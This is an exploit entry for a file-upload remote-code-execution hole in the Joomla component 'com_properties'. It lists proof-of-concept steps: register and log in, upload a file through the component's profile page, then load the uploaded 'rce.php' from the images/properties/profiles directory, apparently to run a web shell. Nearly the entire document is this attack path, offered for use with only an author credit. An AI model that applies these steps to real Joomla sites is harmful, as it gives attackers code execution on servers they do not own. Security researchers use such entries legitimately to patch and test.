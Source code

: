 
#Exploit Title: Joomla Component 'com_properties' File Upload/RCE

* Google Dork: NA


* Exploit Author: Und3r-r00t

* Tested on: Centos

* PoC  
  * register and login
  `http://localhost/index.php?option=com_user&task=register&Itemid=`
  
  `http://localhost/index.php?option=com_user&view=login`

  * Upload File 
  `http://localhost/index.php?option=com_properties&amp;view=profile&amp;Itemid=19`

  * File path
  `http://localhost/images/properties/profiles/rce.php`



github - Und3r-r00t
twitter - @p33rl
